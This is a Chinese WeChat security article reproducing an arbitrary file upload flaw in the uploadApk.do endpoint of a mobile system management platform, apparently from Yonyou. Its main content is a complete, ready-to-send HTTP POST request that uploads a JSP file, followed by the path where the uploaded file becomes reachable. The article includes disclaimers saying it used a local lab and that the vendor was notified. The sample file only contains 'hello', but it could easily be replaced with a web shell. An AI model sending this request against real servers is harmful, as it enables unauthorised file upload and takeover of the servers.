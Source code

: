 #  某友移动系统管理平台文件上传

原创 背包客  [ Max安全研究院 ](javascript:void\(0\);)

**Max安全研究院** ![]()

微信号 baosec404

功能介绍 分享安全盛宴

____

___发表于_

收录于合集

#技术文章 6 个

#漏洞复现 2 个

# 前言

    本公众号仅用作技术研究，利用此文提及到的知识造成的 **任何直接或者间接的后果及损失** **，** 均由使用者本人负责，本人 **不为此承担任何责任** ， **本文中涉及的漏洞复现，均是自己搭建的本地靶场，禁止非法攻击未授权站点！！！** ****

* * *

# 漏洞描述

    uploadApk.do?pk_obj接口存在任意文件上传漏洞，通过漏洞攻击者可以获取服务器权限。

漏洞复现

发送请求包上传

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /maportal/appmanager/uploadApk.do?pk_obj=0001A1100000000H66QB HTTP/1.1Host: 127.0.0.1:8080Content-Length: 198Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.serverConnection: close  
    ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"Content-Type: application/msword  
    hello------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180426.png)

文件上传后的路径：http://ip/maupload/apk/a.jsp

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180427.png)

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！  

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

